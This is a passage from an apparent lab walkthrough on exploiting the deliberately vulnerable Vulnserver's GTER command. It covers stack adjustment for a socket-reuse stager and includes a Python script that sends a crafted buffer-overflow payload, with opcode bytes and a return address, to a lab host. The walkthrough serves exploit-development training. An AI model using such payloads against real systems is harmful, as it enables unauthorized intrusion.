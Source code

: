 After hitting our breakpoint and scrolling up, we can see our opcode instruction and the value of ```EBX``` is same as the address of file descriptor

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-5.png">
</div>

## Stack adjustment

To craft our socket reuse stager, we need to perform many stack operations and to support that our ```ESP``` should be in an optimal address to perform it

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat file-descriptor.py 
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

file_descriptor+=b"\x54" # adding PUSH ESP
file_descriptor+=b"\x54" # adding PUSH ESP

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 file-descriptor.py
```
